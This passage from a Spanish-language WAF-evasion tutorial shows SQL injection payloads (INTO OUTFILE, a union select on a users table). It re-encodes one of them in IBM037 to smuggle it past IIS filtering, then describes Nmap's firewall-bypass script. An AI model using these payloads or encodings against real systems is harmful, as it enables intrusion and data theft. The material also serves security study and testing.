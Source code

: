 **Segunda carga útil:**

> ?id=133) INTO OUTFILE ‘xxx’ --

### 15. Técnica de ofuscación en otros formatos.

Muchas aplicaciones web admiten diferentes tipos de codificación y pueden interpretar la codificación. Siempre necesitamos ofuscar la carga útil a un formato que no sea compatible con WAF, pero el servidor puede pasar de contrabando nuestra carga útil.

Caso IIS:

IIS 6, 7.5, 8 y 10 permiten interpretaciones de caracteres IBM037. Envíe los parámetros codificados con la consulta.

**Solicitud original:**

> POST /example.aspx?id7=sometext HTTP/1.1
> 
> 
> HOST: target.org
> 
> Content-Type: application/x-www-form-urlencoded; charset=utf-8
> 
> Content-Length: 27
> 
> id2='union all select * from users--

**Solicitud ofuscada con codificación de URL:**

> POST /example.aspx?%89%84%F7=%A2%95%94%86%A3%88%89%95%87 HTTP/1.1
> 
> 
> HOST: target.org
> 
> Content-Type: application/x-www-form-urlencoded; charset=ibm037
> 
> Content-Length: 127
> 
> %89%84%F2=%7D%A4%95%89%97%95%40%81%93%94%40%A2%85%93%85%84%A3%40%5C%40%86%99%97%94%40%A4%A2%85%99%A2%60%60

## **NMAP - Script firewall-bypass**

Detecta una vulnerabilidad en netfilter y otros firewalls que utilizan ayudas para abrir dinámicamente puertos para protocolos como ftp y sip. El script funciona falsificando un paquete del servidor de destino solicitando abrir una conexión relacionada a un puerto de destino que será cumplida por el firewall a través del puerto auxiliar de protocolo adecuado. Para que esto funcione, la máquina atacante debe estar en el mismo segmento de red que el firewall. El script admite el asistente ftp tanto en IPv4 como en IPv6. El filtro de ruta real se utiliza para prevenir este tipo de ataques.

Descarga:  [**https://svn.nmap.org/nmap/scripts/firewall-bypass.nse**](https://svn.nmap.org/nmap/scripts/firewall-bypass.nse)

Para más información, ver:
